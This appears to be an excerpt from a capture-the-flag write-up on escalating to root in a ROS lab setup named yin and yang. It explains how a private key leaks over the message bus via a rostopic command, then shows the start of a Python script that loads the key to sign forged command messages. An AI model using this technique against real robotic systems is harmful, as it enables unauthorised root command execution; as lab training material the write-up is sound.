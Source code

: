 With machines communicating, you could examine the code their scripts were running and see what they were doing. Yin would message yang on a loop, yang would receive a message and send a message back. The messages they sent to each other would have an action the target should perform which, because both were running as root and this command was a straight os command, would give execution as root if we could control it. The complication was that the message from yin to yang was signed with a private key we couldn't read, and the message from yang to yin included a secret key we couldnt read.

The path forward was noticing that with yang, when it sent a message it included the private key as an extra parameter of the message. The messages to yin were not encrypted, and with the ros cli tool you could see the messages being sent (via `rostopic echo /messagebus` and so recover the key. With the key, and the following script run on yin, I could send a poisoned message to yang:

```python
`#!/usr/bin/python3

import rospy
import base64
import codecs
import os
from std_msgs.msg import String
from yin.msg import Comms
from yin.srv import yangrequest
import hashlib
from Cryptodome.Signature import PKCS1_v1_5
from Cryptodome.PublicKey import RSA
from Cryptodome.Hash import SHA256

class Yin:
    def __init__(self):

        self.messagebus = rospy.Publisher('messagebus', Comms, queue_size=50)


        #Read the message channel private key
        pwd = b'secret'
        with open('/home/yin/yin/privatekey.pem', 'rb') as f:
            data = f.read()
            self.priv_key = RSA.import_key(data,pwd)

        self.priv_key_str = self.priv_key.export_key().decode()

        rospy.init_node('yrdy')

        self.prompt_rate = rospy.Rate(0.5)

    def getBase64(self, message):
        hmac = base64.urlsafe_b64encode(message.timestamp.encode()).decode()
        hmac += "."
        hmac += base64.urlsafe_b64encode(message.sender.encode()).decode()
        hmac += "."
        hmac += base64.urlsafe_b64encode(message.receiver.encode()).decode()
        hmac += "."
        hmac += base64.urlsafe_b64encode(str(message.action).encode()).decode()
        hmac += "."
        hmac += base64.urlsafe_b64encode(str(message.actionparams).encode()).decode()
        hmac += "."
        hmac += base64.urlsafe_b64encode(message.feedback.encode()).decode()
        return hmac

    def getSHA(self, hmac):
        m = hashlib.sha256()
        m.update(hmac.encode())
        return str(m.hexdigest())

```